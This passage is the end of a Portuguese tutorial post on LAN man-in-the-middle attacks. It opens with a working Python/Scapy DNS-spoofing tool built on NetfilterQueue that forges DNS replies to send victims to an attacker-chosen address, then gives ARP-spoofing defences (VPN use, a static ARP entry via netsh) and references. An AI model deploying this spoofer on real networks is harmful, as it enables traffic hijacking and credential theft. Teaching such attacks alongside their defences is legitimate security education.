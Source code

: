 ``` python
                self.redirect,pkt[DNS].qd.qname[:len(str(pkt[DNS].qd.qname))-1]))
                spoofed_pkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)/\
                UDP(dport=pkt[UDP].sport, sport=pkt[UDP].dport)/\
                DNS(id=pkt[DNS].id, qr=1, aa=1, qd=pkt[DNS].qd,\
                an=DNSRR(rrname=pkt[DNS].qd.qname, ttl=10, rdata=self.redirect))
                packet.set_payload(str(spoofed_pkt))
                send(spoofed_pkt,verbose=False)
                packet.accept()
            else:
                packet.accept()

    def main(self):
        self.redirect, self.domain = self.args.redirect, self.args.domains.split(',')
        self.q = NetfilterQueue()
        self.q.bind(0, self.callback)
        self.q.run()

if __name__ == "__main__":
    dnsspoof = DnsSpoofNetFilter()
    dnsspoof.main()
```

### Proteções contra ARP spoof

Para se proteger desse tipo ataque, você pode evitar acessar redes desconhecidas/públicas. Além disso, o usar VPN é uma boa saída para evitar esse e qualquer outro tipo de ataque do tipo LAN, outra forma também muito recomendada é usar endereços stático da tabela arp, ou seja, quando você insere uma entrada estática na teblea ARP, informa ao seu computador que o endereço mac do roteador é permanente e não será alterado. Portanto, seu computador ignora qualquer pacote ARP falso enviado pelo atacante.

```
netsh interface ipv4 add neighbors "Local Area Connection" Gateway MAC
```

Por último e não menos importante temos a melhor solução de todas, essa é a solução que funciona para qualquer sistema operacional,"remova o cabo da internet ou do roteador".


### Conclusão

Bricadeiras a parte isso é tudo pessoal, espero que tenha ajudado algum curioso como eu que sempre está aprendendo coisas novas. Portanto, obtemos que usar o **NetfilterQueue** é a melhor opção por enquanto pois temos um maior controle sobre o pacote, podendo usar para diferentes fim, analise de malware, ataque direcionado, ataque em determina aplicação ou até mesmo implementação de controle de acesso. Em fim, as possibilidades são muitas só depende agora dá sua criatividade.

Qualquer crítica pode deixar nós comentários recomendo fortemente :D, até um futuro próximo.

by: Marcos Bomfim a.k.a mh4x0f

Referências:

>
https://pt.wikipedia.org/wiki/Ataque_man-in-the-middle
http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html
https://pt.wikipedia.org/wiki/ARP_spoofing
http://ispipdatanetworks-learning.blogspot.com/2015/10/arp-packet-format-and-different-types.html
https://serverfault.com/questions/102736/persistent-static-arp-entries-on-windows-is-it-possible
https://superuser.com/questions/391108/how-can-i-add-an-active-arp-entry-on-win-7
